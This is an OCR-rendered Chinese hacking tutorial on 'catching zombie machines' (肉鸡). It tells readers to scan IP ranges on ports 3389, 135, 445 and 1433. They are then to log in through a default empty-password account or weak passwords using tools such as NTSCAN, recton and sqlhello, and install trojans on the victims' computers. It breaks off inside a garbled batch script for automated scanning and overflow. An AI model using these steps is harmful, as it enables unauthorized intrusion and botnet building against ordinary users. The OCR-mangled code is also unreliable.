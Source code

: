 # 抓肉鸡的几种方法

找点工具就OK了端口抓肉鸡的几种方法肉鸡大家都应该清楚是什么东西吧！呵呵这点

就不用说了.............慢慢学

## 1、3389抓鸡

现在国内网络上流传着一种克隆版的XP，安装后会默认开启一个账号为new,密码为空的

账户，而且基本上都是开着3389的，我们就可以利用这一点来抓肉鸡。首先用端口扫描工

具扫一段IP的3389端口，扫完后就直接用远程桌面连接开放3389的机器（也可以把结

果保存为文本文件，用批量生成3389连接的工具来连接），然后输入账号new登入，如

果别人的电脑前没人的话你就可以去你的空间下载你传好的木马安装拉~~

这种方法只针XP系统，如果遇到2000或者2003系统就不要试了

呵呵。缺点也很明显，如果别人不是用new账号登入XP的，你再登入上去就会把他挤出

去（XP只支持单用户登入，用户登入需要用工具开），或者电脑前有人你就不可能去打开

IE下载木马了。

## 2、扫135端口抓肉鸡

首先先用端口扫描器扫一段IP的135端口，然后把结果保存，再用NTSCAN过滤有弱口

令的机器，最后用recton开telnet传马。因为现在135和445端口都被防火墙屏蔽了，

只能扫本地的135肉鸡，要抓外地的只能用外地的135肉鸡来扫。（详细动画

可以去黑客网站搜索135）

## 3、扫445端口抓肉鸡

和扫135抓肉鸡差不多，首先先用端口扫描器扫一段IP的445端口，然后把结果保存，

再用NTSCAN过滤有弱口令的机器，最后用啊D工具包开共享传马。因为现在135和445

端口都被防火墙屏蔽了，只能扫本地的445肉鸡，要抓外地的只能用外地的445肉鸡来扫。

（详细动画可以去黑客网站搜索445）

## 4、1433端口批量溢出抓肉鸡

这个方法可以实现全自动抓鸡，不过现在太多人搞，成功率已经不高了。要用到的工具：S

扫sqlhello.exenc.exe批处理文件首先先写个批处理，打开记事本，把以下代码复制修改

后，储存为扫描+溢出.bat文件

@echooff

for/f"eol=;tokens=1,2delims="%%iin(tt.txt)dos.exetcp%%i%%j
